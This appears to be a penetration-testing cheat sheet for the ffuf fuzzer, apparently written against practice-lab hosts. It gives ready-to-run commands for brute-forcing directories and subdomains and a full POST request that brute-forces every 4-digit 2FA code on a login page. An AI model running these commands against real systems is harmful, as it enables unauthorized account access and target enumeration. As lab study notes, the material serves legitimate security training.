 ### FFUF



Brute-force directories/files with specific extensions

```
ffuf -u <URL/FUZZ> -w <wordlist> -e <ext>
```

2FA /POST Bruteforce with FFUF exemple :

```
ffuf -v -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://192.168.236.110/2fa.php -X POST \
     -H "Host: 192.168.236.110" \
     -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
     -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
     -H "Accept-Language: en-US,en;q=0.5" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -H "Origin: http://192.168.236.110" \
     -H "Referer: http://192.168.236.110/2fa.php" \
     -H "Cookie: PHPSESSID=sodtq3hkqpjf00lb9lktfigse9" \
     -d "2fa_code=FUZZ"
```


Subdomains
```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.marshalled.pg" -u http://192.168.189.237
```

